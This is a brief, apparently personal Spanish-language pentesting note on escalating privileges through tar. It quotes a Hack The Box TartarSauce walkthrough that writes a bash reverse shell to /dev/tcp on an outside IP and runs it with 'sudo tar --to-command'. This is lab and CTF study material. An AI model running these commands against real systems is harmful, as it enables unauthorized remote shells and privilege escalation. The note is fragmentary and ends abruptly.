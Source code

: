
## DESCRIPTION



#### Mas información
*  https://gtfobins.github.io/gtfobins/tar/


## EXPLOITATION
EJEMPLO CON UN USUARIO NO ROOT:
![[Pasted image 20230606134446.png]]

EXISTE OTRA FORMA DE ELEVAR PRIVILEGIOS:

–to-command
The take advantage of this, first create a shell script that will provide a reverse shell to my host. Then put it into a tar archive.

www-data@TartarSauce:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.15.99/8082 0>&1' > a.sh
www-data@TartarSauce:/dev/shm$ tar -cvf a.tar a.sh
a.sh
Then I’ll run tar with the --to-command option. This option takes the output of the tar command, and passes it to another binary for processing. In this case, I’m having my shell script to get a shell passed to bash to run it.

www-data@TartarSauce:/dev/shm$ sudo -u onuma tar -xvf a.tar --to-command /bin/bash

## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 